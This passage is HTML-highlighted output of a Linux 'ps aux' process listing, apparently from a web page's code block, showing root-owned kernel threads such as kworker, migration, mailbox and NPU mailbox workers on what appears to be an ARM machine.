class="line">root          <span class="number">17</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">1</span>]</span><br><span class="line">root          <span class="number">18</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">1</span>]</span><br><span class="line">root          <span class="number">19</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">1</span>:<span class="number">0</span>-events]</span><br><span class="line">root          <span class="number">20</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">1</span>:<span class="number">0</span>H-kblockd]</span><br><span class="line">root          <span class="number">21</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">2</span>]</span><br><span class="line">root          <span class="number">22</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">2</span>]</span><br><span class="line">root          <span class="number">23</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">2</span>]</span><br><span class="line">root          <span class="number">25</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">2</span>:<span class="number">0</span>H-events_highpri]</span><br><span class="line">root          <span class="number">26</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">3</span>]</span><br><span class="line">root          <span class="number">27</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">3</span>]</span><br><span class="line">root          <span class="number">28</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">3</span>]</span><br><span class="line">root          <span class="number">30</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">3</span>:<span class="number">0</span>H-kblockd]</span><br><span class="line">root          <span class="number">31</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">4</span>]</span><br><span class="line">root          <span class="number">32</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">4</span>]</span><br><span class="line">root          <span class="number">33</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">4</span>]</span><br><span class="line">root          <span class="number">35</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">4</span>:<span class="number">0</span>H-kblockd]</span><br><span class="line">root          <span class="number">36</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">5</span>]</span><br><span class="line">root          <span class="number">37</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">5</span>]</span><br><span class="line">root          <span class="number">38</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">5</span>]</span><br><span class="line">root          <span class="number">40</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">5</span>:<span class="number">0</span>H-kblockd]</span><br><span class="line">root          <span class="number">41</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">6</span>]</span><br><span class="line">root          <span class="number">42</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">6</span>]</span><br><span class="line">root          <span class="number">43</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">6</span>]</span><br><span class="line">root          <span class="number">45</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">6</span>:<span class="number">0</span>H-kblockd]</span><br><span class="line">root          <span class="number">46</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cpuhp/<span class="number">7</span>]</span><br><span class="line">root          <span class="number">47</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [migration/<span class="number">7</span>]</span><br><span class="line">root          <span class="number">48</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ksoftirqd/<span class="number">7</span>]</span><br><span class="line">root          <span class="number">50</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">7</span>:<span class="number">0</span>H-kblockd]</span><br><span class="line">root          <span class="number">51</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kdevtmpfs]</span><br><span class="line">root          <span class="number">52</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [netns]</span><br><span class="line">root          <span class="number">53</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rcu_tasks_kthre]</span><br><span class="line">root          <span class="number">55</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        D    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [bbox_main]</span><br><span class="line">root          <span class="number">57</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        D    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [bbox_cleartext]</span><br><span class="line">root          <span class="number">58</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kauditd]</span><br><span class="line">root          <span class="number">59</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">7</span>:<span class="number">1</span>-events]</span><br><span class="line">root          <span class="number">60</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-10</span>]</span><br><span class="line">root          <span class="number">61</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-11</span>]</span><br><span class="line">root          <span class="number">62</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-12</span>]</span><br><span class="line">root          <span class="number">63</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-13</span>]</span><br><span class="line">root          <span class="number">64</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-14</span>]</span><br><span class="line">root          <span class="number">65</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-15</span>]</span><br><span class="line">root          <span class="number">66</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-16</span>]</span><br><span class="line">root          <span class="number">67</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-17</span>]</span><br><span class="line">root          <span class="number">68</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-18</span>]</span><br><span class="line">root          <span class="number">69</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-23</span>]</span><br><span class="line">root          <span class="number">70</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-25</span>]</span><br><span class="line">root          <span class="number">71</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-26</span>]</span><br><span class="line">root          <span class="number">72</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-27</span>]</span><br><span class="line">root          <span class="number">73</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-28</span>]</span><br><span class="line">root          <span class="number">74</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [mailbox<span class="number">-30</span>]</span><br><span class="line">root          <span class="number">75</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ao-mailbox<span class="number">-0</span>]</span><br><span class="line">root          <span class="number">76</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [npu-mailbox<span class="number">-0</span>]</span><br><span class="line">root          <span class="number">77</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [npu-mailbox<span class="number">-1</span>]</span><br><span class="line">root          <span class="number">78</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [npu-mailbox<span class="number">-2</span>]</span><br><span class="line">root          <span class="number">79</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [npu-mailbox<span class="number">-3</span>]</span><br><span class="line">root          <span class="number">81</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [oom_reaper]</span><br><span class="line">root          <span class="number">82</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [writeback]</span><br><span class="line">root          <span class="number">83</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kcompactd0]</span><br><span class="line">root          <span class="number">84</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [crypto]</span><br><span class="line">root          <span class="number">85</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kblockd]</span><br><span class="line">root          <span class="number">86</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">5</span>:<span class="number">1</span>-mm_percpu_wq]</span><br><span class="line">root          <span class="number">88</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [dsm_wq]</span><br><span class="line">root          <span class="number">89</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ata_sff]</span><br><span class="line">root          <span class="number">90</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [spi3]</span><br><span class="line">root          <span class="number">91</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [devfreq_wq]</span><br><span class="line">root          <span class="number">92</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rdr_lpm3_thread]</span><br><span class="line">root          <span class="number">93</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [watchdogd]</span><br><span class="line">root          <span class="number">94</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kysec_auth]</span><br><span class="line">root          <span class="number">95</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [slimbus_lost_sy]</span><br><span class="line">root          <span class="number">97</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [rpciod]</span><br><span class="line">root          <span class="number">98</span>  <span class="number">0.7</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">09</span> [kworker/u17:<span class="number">0</span>-kbase_pm_poweroff_wait]</span><br><span class="line">root          <span class="number">99</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [xprtiod]</span><br><span class="line">root         <span class="number">100</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cfg80211]</span><br><span class="line">root         <span class="number">101</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [siqthread/<span class="number">0</span>]</span><br><span class="line">root         <span class="number">102</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ipihelper]</span><br><span class="line">root         <span class="number">103</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [agent_rpmb]</span><br><span class="line">root         <span class="number">104</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [smc_svc_thread]</span><br><span class="line">root         <span class="number">145</span>  <span class="number">0.4</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">06</span> [kswapd0]</span><br><span class="line">root         <span class="number">146</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ecryptfs-kthrea]</span><br><span class="line">root         <span class="number">147</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [nfsiod]</span><br><span class="line">root         <span class="number">148</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cifsiod]</span><br><span class="line">root         <span class="number">149</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [cifsoplockd]</span><br><span class="line">root         <span class="number">150</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [xfsalloc]</span><br><span class="line">root         <span class="number">151</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [xfs_mru_cache]</span><br><span class="line">root         <span class="number">200</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kthrotld]</span><br><span class="line">root         <span class="number">201</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">125</span>-dwc_dpt]</span><br><span class="line">root         <span class="number">202</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [irq/<span class="number">195</span>-hpd_gpi]</span><br><span class="line">root         <span class="number">204</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [pmic-otmp-wq]</span><br><span class="line">root         <span class="number">205</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [pmu-ocp-wq]</span><br><span class="line">root         <span class="number">206</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_eh_0]</span><br><span class="line">root         <span class="number">207</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_tmf_0]</span><br><span class="line">root         <span class="number">208</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ufs_eh_worker]</span><br><span class="line">root         <span class="number">210</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> [kworker/u16:<span class="number">3</span>-devfreq_wq]</span><br><span class="line">root         <span class="number">211</span>  <span class="number">0.1</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">01</span> [kworker/u16:<span class="number">4</span>-devfreq_wq]</span><br><span class="line">root         <span class="number">212</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">6</span>:<span class="number">2</span>-pm]</span><br><span class="line">root         <span class="number">214</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_eh_1]</span><br><span class="line">root         <span class="number">215</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_tmf_1]</span><br><span class="line">root         <span class="number">216</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_eh_2]</span><br><span class="line">root         <span class="number">217</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_tmf_2]</span><br><span class="line">root         <span class="number">218</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_eh_3]</span><br><span class="line">root         <span class="number">219</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [scsi_tmf_3]</span><br><span class="line">root         <span class="number">220</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        D    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [long_powerkey]</span><br><span class="line">root         <span class="number">221</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [wdt_wq]</span><br><span class="line">root         <span class="number">222</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [kworker/<span class="number">0</span>:<span class="number">1</span>H-kblockd]</span><br><span class="line">root         <span class="number">224</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [dw-mci-card/<span class="number">2</span>]</span><br><span class="line">root         <span class="number">225</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [ion_system_heap]</span><br><span class="line">root         <span class="number">226</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [memlat_wq]</span><br><span class="line">root         <span class="number">227</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        I&lt;   <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [hwlog_wq]</span><br><span class="line">root         <span class="number">228</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        D    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [clear_dfx_happe]</span><br><span class="line">root         <span class="number">230</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [bbox_diaginfo]</span><br><span class="line">root         <span class="number">231</span>  <span class="number">0.0</span>  <span class="number">0.0</span>      <span class="number">0</span>     <span class="number">0</span> ?        S    <span class="number">15</span>:<span class="number">13</span>   <span class="number">0</span>:<span class="number">00</span> [bbox_lpmcu_diag]</span><br><span class="line">root         <span class="number">232</span>  <span 